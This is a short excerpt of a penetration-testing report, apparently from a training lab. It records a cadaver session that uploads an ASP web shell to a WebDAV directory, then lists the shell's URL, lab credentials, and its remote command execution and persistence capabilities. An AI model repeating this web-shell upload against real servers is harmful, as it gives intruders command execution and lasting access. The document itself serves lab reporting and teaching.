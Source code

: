 #### Proof of Concept Evidence

**Successful Exploitation Screenshots/Logs:**
```
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.

dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        webshell.asp                          1362  Jul 10 09:42
```

**Web Shell Access Verification:**
- **URL:** http://demo.ine.local/webdav/webshell.asp
- **Authentication:** bob:password_123321  
- **Status:** Accessible and functional for command execution
- **Capabilities:** Remote command execution, file system access, persistence

This comprehensive documentation provides complete evidence of successful WebDAV exploitation using cadaver for penetration testing reporting and compliance requirements.

